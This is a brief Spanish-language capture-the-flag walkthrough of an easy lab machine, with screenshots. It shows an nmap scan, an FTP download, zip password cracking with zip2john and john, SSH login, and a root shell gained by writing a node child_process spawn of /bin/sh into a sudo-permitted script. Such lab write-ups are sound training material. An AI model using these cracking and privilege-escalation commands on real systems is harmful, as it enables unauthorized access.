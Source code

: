 nmap: 21,22

![image](https://github.com/user-attachments/assets/f278b033-4ada-4db4-bd22-f1b64aea118c)

vamos al ftp y nos pasamos el zip

![image](https://github.com/user-attachments/assets/e7fd669e-f52c-4af9-be43-554efac6afdb)

y nos pide contraseña

![image](https://github.com/user-attachments/assets/6b7ccde2-388d-42a7-9702-95da8b0c5a48)

ahora sacamos la contraseña con el comando

     zip2john secretitopicaron.zip

después 

     john has_zip


y da

![image](https://github.com/user-attachments/assets/f6956b23-3ba5-4d7d-9cb8-14159b066c1f)

ahora sacamos el zip

![image](https://github.com/user-attachments/assets/8dc71c63-1151-4a0a-94bb-e6827c905bbe)

y obtenemos la contraseña y usuario, entramos por el ssh, ahora entramos

![image](https://github.com/user-attachments/assets/26df6c64-9617-4635-acc5-895752ec119a)

al hacer sudo -l podemos ver que hay un archivo script.js pero no tiene nada dentro, pero igual esta el node

![image](https://github.com/user-attachments/assets/e6168389-fe56-423e-8d57-2c4f6d3da405)

buscamos el node: https://gtfobins.github.io/gtfobins/node/
dentro del script.js que esta vacío colocamos este comando

     require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]}) 

y ejecutamos el script

     sudo /usr/bin/node /home/mario/script.js

![[dockerlabs/facil/nodeclimb/root.png]]

y somos root!
